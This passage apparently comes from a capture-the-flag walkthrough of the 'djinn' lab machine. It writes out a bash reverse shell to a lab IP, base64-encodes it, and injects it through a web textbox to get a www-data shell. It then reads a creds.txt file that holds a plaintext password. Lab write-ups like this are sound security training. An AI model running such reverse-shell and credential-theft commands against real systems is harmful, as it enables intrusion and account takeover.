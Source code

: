 
## Exploitation
### Command Execution
Since it's not possible execute commands directly, we need to base64 encode our reverse shell.

```bash
root@kali:~$ echo "bash -i >& /dev/tcp/192.168.179.1/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OS4xLzQ0MyAwPiYxCg==
```

We first need set up a netcat listener on port 443, then we copy our reverse shell encoded and paste it into the textbox along with the echo command, piping it to decode it and piping it to execute it with bash.

```bash
root@kali:~$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OS4xLzQ0MyAwPiYxCg==" | base64 -d | bash
```
![](/assets/images/djinn/screenshot-5.png)

And we have a shell with www-data user permissions.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.143] 37832
bash: cannot set terminal process group (652): Inappropriate ioctl for device
bash: no job control in this shell
www-data@djinn:/opt/80$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


Into the directory **/home/nitish/.dev** I found credentials for the nitish user.

```bash
www-data@djinn:/home/nitish/.dev$ ls
ls
creds.txt
www-data@djinn:/home/nitish/.dev$ cat creds.txt
cat creds.txt
nitish:p4ssw0rdStr3r0n9
```
